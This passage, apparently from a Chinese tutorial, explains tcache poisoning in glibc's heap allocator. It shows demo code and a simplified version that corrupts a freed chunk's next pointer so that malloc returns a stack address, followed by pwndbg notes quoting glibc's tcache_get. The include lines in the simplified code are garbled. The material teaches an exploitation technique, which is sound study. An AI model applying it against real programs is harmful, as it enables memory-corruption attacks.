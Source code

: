 ```
    // the following operation assumes the address of b is known, which requires a heap leak
    b[0] = (intptr_t)((long)target ^ (long)b >> 12);
    // VULNERABILITY
    printf("Now the tcache list has [ %p -> %p ].\n", b, target);
 
    printf("1st malloc(128): %p\n", malloc(128));
    printf("Now the tcache list has [ %p ].\n", target);
 
    intptr_t *c = malloc(128);
    printf("2nd malloc(128): %p\n", c);
    printf("We got the control\n");
 
    assert((long)target == (long)c);
    return 0;
} 
```

简化版本：

```
#include #include #include int main()
{
    size_t stack[0x10];
    int i = 0;
    while ((long)&stack[i]&0xf) i++;
    size_t *target = &stack[i];
    size_t *a = malloc(8);
    size_t *b = malloc(8);
    free(a);
    free(b);
    b[0] = (size_t)((long)target ^ ((long)b >> 12));
    size_t * xx = malloc(8);
    size_t *c = malloc(8);
    assert( c == target);
    return 0;
} 
```

### pwndbg 调试

先申请了一个数组，并检查地址是否 0x10 字节对齐。

```
#define aligned_OK(m)  (((unsigned long)(m) & MALLOC_ALIGN_MASK) == 0)
#define MALLOC_ALIGN_MASK (MALLOC_ALIGNMENT - 1)
/* MALLOC_ALIGNMENT is the minimum alignment for malloc'ed chunks.  It
   must be a power of two at least 2 * SIZE_SZ, even on machines for
   which smaller alignments would suffice. It may be defined as larger
   than this though. Note however that code and data structures are
   optimized for the case of 8-byte alignment.  */
#define MALLOC_ALIGNMENT (2 * SIZE_SZ < __alignof__ (long double) \
              ? __alignof__ (long double) : 2 * SIZE_SZ)
 
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  if (__glibc_unlikely (!aligned_OK (e)))
    malloc_printerr ("malloc(): unaligned tcache chunk detected");
  tcache->entries[tc_idx] = REVEAL_PTR (e->next);
  --(tcache->counts[tc_idx]);
  e->key = 0;
  return (void *) e;
}

```
